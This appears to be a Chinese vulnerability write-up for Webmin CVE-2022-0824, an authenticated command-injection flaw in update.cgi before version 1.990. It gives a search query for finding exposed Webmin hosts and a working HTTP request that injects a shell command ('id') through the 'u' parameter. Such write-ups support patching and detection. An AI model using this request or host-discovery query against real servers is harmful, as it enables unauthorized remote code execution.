# Webmin update.cgi 后台远程命令执行漏洞 CVE-2022-0824

# Webmin update.cgi 后台远程命令执行漏洞 CVE-2022-0824

## 漏洞描述

Webmin是Webmin社区的一套基于Web的用于类Unix操作系统中的系统管理工具。

Webmin 1.990之前版本存在安全漏洞，该漏洞源于软件中存在不正确的访问控制，攻击者可以利用该漏洞实现远程代码执行

## 漏洞影响

```
Webmin < 1.990
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](/images/202208291022969.png)

登录后发送请求包

```
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: http:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![image-20220829102233314](/images/202208291022378.png)

